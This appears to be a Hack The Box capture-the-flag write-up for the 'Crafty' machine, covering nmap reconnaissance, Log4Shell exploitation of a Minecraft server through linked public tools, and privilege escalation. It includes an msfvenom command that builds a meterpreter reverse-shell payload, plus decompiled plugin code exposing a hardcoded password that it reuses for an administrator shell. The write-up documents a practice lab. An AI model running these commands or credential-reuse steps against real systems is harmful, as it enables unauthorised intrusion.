







<h1 align="center"> Crafty </h1>

<p align="center">
    <a href="https://app.hackthebox.com/machines/587">
        
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2021-44228](#3-ssti)
4. [Privilege Escalation](#4-user-to-root)
5. [Pwned Info](#pwned-info)

## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.249
Nmap scan report for 10.10.11.249
Host is up (0.064s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 12 11:12:25 2024 -- 1 IP address (1 host up) scanned in 18.92 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *http://crafty.htb/*, so before connecting, we add, in `/etc/hosts`, *crafty.htb*.

<p align="center">
  
</p>

Interestingly, on the page, is the name of a Minecraft server.

## 3. CVE-2021-44228

Expanding the search with nmap, I found another service on port 25565.

```bash
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
```

Doing some research, in relation to the name of the challenge, I found an article that deals with the [Log4Shell](https://www.radware.com/blog/security/threat-intelligence/2021/12/log4shell-critical-log4j-vulnerability/) vulnerability (CVE-2021-44228).

Searching for an exploit I found a [PoC](https://github.com/kozmer/log4j-shell-poc).

Having to connect to the Minecraft server, I started looking for some solutions and found [pyCraft](https://github.com/ammaraskar/pyCraft).

Having everything I need, I can have a shell.

<p align="center">
  
</p>

In *C:\Users\svc_minecraft\Desktop* there is the user flag.

## 4. User to ROOT

After a short search, I found a plugin.

<p align="center">
  
</p>

To download it I opened a shell via `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4567 -f exe -o rev.exe` and then with *msfconsole*.

<p align="center">
  
</p>

After decompiled, we can observe a file called *Playercounter*.

```java
package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

public final class Playercounter extends JavaPlugin {
   public void onEnable() {
      Rcon rcon = null;

      try {
         rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
      } catch (IOException var5) {
         throw new RuntimeException(var5);
      } catch (AuthenticationException var6) {
         throw new RuntimeException(var6);
      }

      String result = null;

      try {
         result = rcon.command("players online count");
         PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
         writer.println(result);
      } catch (IOException var4) {
         throw new RuntimeException(var4);
      }
   }

   public void onDisable() {
   }
}
```

There is a password so I used it to open an administrator shell through [RunasCS](https://github.com/antonioCoco/RunasCs).

<p align="center">
  
</p>

In *C:\Users\Administrator\Desktop* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/587">
        
    </a>
</p>